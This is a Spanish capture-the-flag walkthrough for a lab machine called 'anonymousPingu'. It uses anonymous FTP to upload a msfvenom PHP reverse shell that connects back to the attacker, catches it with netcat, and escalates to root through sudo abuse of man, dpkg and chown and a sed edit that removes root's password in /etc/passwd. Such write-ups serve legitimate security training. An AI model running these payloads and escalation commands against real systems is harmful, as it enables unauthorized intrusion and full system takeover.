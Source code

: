 # anonymousPingu

* Máquina **atacante** -> 172.17.0.1
* Máquina **objetivo** -> 172.17.0.2 | Linux :penguin:

### Escaneo de puertos

Realizamos un escaneo de puertos con *nmap* para ver puertos abiertos de la máquina **objetivo**:
```shell
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.17.0.2
```
![escaneo](/Capturas/2024-11-02_23-40.png)

Encontramos abiertos el puerto **21** y el **80**.

### FTP

Si nos fijamos en el reporte que nos da *nmap*, vemos que tenemos operativa la vulnerabilidad **anonymous**, con la que podemos entrar al servidor **ftp** sin necesidad de credenciales, el cual parece estar conectado con la página web que corre por el puerto **80**. También observamos que en uno de los directorios, tenemos permisos de lectura, escritura y ejecución, el cual se llama **upload**:

![upload](/Capturas/2024-11-02_23-46.png)

Por lo que ahora, crearemos un **payload** y lo guardaremos con extensión **.php**:
```shell
msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=443 -f raw > payload.php
```
A continuación, subimos el archivo al servidor **ftp**:

![subir_payload](/Capturas/2024-11-07_20-01.png)

Una vez subido, nos ponemos a la escucha con *netcat* por un puerto libre que tengamos:
```shell
nc -nlvp 443
```
Y ahora, nos vamos al navegador y accedemos al puerto 80 de la máquina **objetivo** dentro del directorio `/upload` para comprobar que el archivo se encuentra en la ruta que esperamos:

![upload](/Capturas/2024-11-07_20-03.png)

Hacemos doble click en el archivo creado, y si nos vamos a donde estábamos a la escucha con *netcat*, veremos que ya habremos hecho la **intrusión**:

![intrusion](/Capturas/2024-11-07_20-05.png)

> Es aconsejable estabilizar la conexión creando otra por otro puerto diferente, para que no se nos caiga cada poco tiempo, ya que **msfvenom** crea una conexión inestable.

### Escalada de privilegios

Si ejecutamos el comando `sudo -l`, podemos ver que estamos habilitados para ejecutar *man* como el usuario **pingu**:

![man](/Capturas/2024-11-07_20-16.png)

Por lo que simplemente ejecutamos los siguientes comandos y...
```shell
sudo -u pingu /usr/bin/man man
```
```shell
!/bin/sh
```
somos el usuario **pingu**:

![pingu](/Capturas/2024-11-07_21-05.png)

Realizamos la misma operación que con **www-data** y vemos que podemos ejecutar *nmap* y *dpkg* como el usuario **gladys**:

![sudo-l](/Capturas/2024-11-07_21-06.png)

Escalamos al usuario **gladys** con *dpkg* usandos los siguientes comandos:
```shell
sudo -u gladys dpkg -l
```
```shell
!/bin/sh
```
Ahora somos el usuario **gladys**:

![gladys](/Capturas/2024-11-07_21-13.png)

Volvemos a realizar la misma operación por última vez y observamos que podemos ejecutar *chown* como **root**:

![chown](/Capturas/2024-11-07_21-15.png)

Para escalar a **root** debemos primero cambiar los permisos del directorio `/etc`:
```shell
sudo /usr/bin/chown gladys:gladys /etc
```
Y comprobamos que se han cambiado los permisos del archivo que necesitamos `/etc/passwd`:

![comprobar](/Capturas/2024-11-07_22-46.png)

Ahora, cambiamos del archivo `/etc/passwd`, la **:x:** del usuario **root** para poder acceder a él sin autenticación. En este caso, debemos realizarlo con *sed*, ya que no tenemos ni *nano* ni *vim* ni *vi*:
```shell
/usr/bin/sed -i 's/root:x:/root::/g' /etc/passwd
```
Y ahora ya sólo tenemos que iniciar sesión como usuario **root**:

![root](/Capturas/2024-11-07_22-50.png)

:triangular_flag_on_post:
